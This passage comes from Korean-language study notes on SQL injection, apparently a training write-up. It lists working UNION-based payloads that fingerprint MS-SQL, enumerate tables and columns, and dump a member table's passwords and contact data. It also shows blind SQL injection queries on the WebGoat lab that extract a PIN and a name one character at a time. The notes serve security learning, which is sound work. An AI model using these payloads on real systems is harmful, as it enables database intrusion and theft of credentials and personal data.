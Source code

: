      -  **\#3 UNION 구문을 이용해서 해당 DBMS의 종류를 확인**

       ​	=> select * from address where dong = 'a' and 1=2 UNION select 1,db_name(),@@version,4,5,6,7 --

     -  **\#4 MS-SQL의 시스템 테이블을 이용해서 해당 DB에서 사용하고 있는 사용자 테이블 목록을 조회**

       ​	=> `select * from address where dong = 'a' and 1=2 UNION select 1,id,name,4,5,6,7 from sysobjects where xtype='U' --' `

     -  **\#5 member 테이블의 컬럼 정보(이름)를 조회**

       ​	=>`select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=2073058421 --'`

       ​	=>`select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=(select id from sysobjects where name='member') --' `

     -  **\#6 member 테이블에 정보를 조회**

        =>`select * from address where dong = 'a' and 1=2 UNION select 1,bId,bName,bPass,bMail,bPhone,7 from member --'`

5. **Blind SQL Injection** => 참,거짓에 따라 서버의 반응이 다른것을 이용한 공격 기법

   WebGoat > Injection Flaws > Blind Numeric SQL Injection 

   서버 내부 처리를 예측

   `select * from accounts where account_no=101`

   ​	->	결과가 있으면 => Account number is valid.

   ​	->	결과가 없으면 => Invalid account number.

   - 문제1 : pins 테이블에서 cc_number의 값이 1111222233334444인 pin 값을 구하시오.

     ​	=> `select pin from pins where cc_number = '1111222233334444'`

     -> `select * from accounts where account_no = 101 and (select pin from pins where cc_number = '1111222233334444') = 2364`

     ​	=> Account number is valid. ⇒ 참

     ​	=> Invalid account number. ⇒ 거짓

   - 문제2 : pins 테이블에서 cc_number의 값이 4321432143214321인 name 컬럼의 값을 구하시오.

     ​	=> `select * from accounts where account_no = 101 and (select substr(name,1,1) from pins where cc_number = '4321432143214321') = 'J'`

     ​	=> `select * from accounts where account_no = 101 and (select ascii(substr(name,1,1)) from pins where cc_number = '4321432143214321') < 90`

     ​	=> `select * from accounts where account_no = 101 and (select substr(name,2,1) from pins where cc_number = '4321432143214321') = 'i'`

     ​	=> `select * from accounts where account_no = 101 and (select substr(name,3,1) from pins where cc_number = '4321432143214321') = 'l'`

     ​	=> `select * from accounts where account_no = 101 and (select name from pins where cc_number = '4321432143214321') = 'Jill'`